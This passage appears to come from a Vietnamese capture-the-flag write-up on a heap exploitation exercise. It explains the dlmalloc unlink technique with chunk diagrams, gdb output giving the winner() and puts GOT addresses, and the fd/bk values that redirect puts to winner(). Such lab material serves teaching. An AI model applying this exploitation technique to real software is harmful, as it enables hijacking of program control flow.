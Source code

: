 ```
------------+------------+------------+------------+------------+--------------------------------+
            ↑            ↑
            next         next chunk
            next
            chunk
```
- Để không consolidate forward (unlink next chunk), ta phải để bit cuối ô size của next next chunk là 1:
```
                                      c chunk
                                      ↓
------------+------------+------------+------------+------------+--------------------------------+
            |            |bit cuối    |prev_size:  |size:       |                                |
            |            |ô này: 1    |-4          |-4          |                                |
------------+------------+------------+------------+------------+--------------------------------+
            ↑            ↑
            next         next chunk
            next
            chunk
```
- Quay trở lại với previous chunk, gọi cách khác chính là fake chunk, ta cần chỉnh sửa fd và bk của chunk này để chỉnh sửa bảng GOT hàm puts thành địa chỉ hàm winner():
- Tìm địa chỉ hàm winner():
```
(gdb) print winner
$1 = {void (void)} 0x8048864 <winner>
```
- GOT puts address:
```
(gdb) disas main
...
0x08048935 <main+172>:  call   0x8048790 <puts@plt>
...
(gdb) x/3i 0x08048790
0x8048790 <puts@plt>:   jmp    DWORD PTR ds:0x804b128
0x8048796 <puts@plt+6>: push   0x68
0x804879b <puts@plt+11>:        jmp    0x80486b0
```
=> GOT puts address = 0x0804b128
- Dựa vào unlink macro, =>:
  - fd = GOT puts address - 12
  - bk = winner address

**Vấn đề 2: unlink macro**

Trong unlink macro có:
```
*(FD + 12) = BK  (1)
*(BK + 8) = FD   (2)
```
Nếu ta để GOT address vào FD, winner address vào BK, dòng (1) sẽ thực hiện đúng mục đích của ta, tuy nhiên dòng (2) lại có vấn đề.\
Dòng (2) sẽ ghi GOT address vào vùng code hàm winner, vùng text. dẫn đến fail.
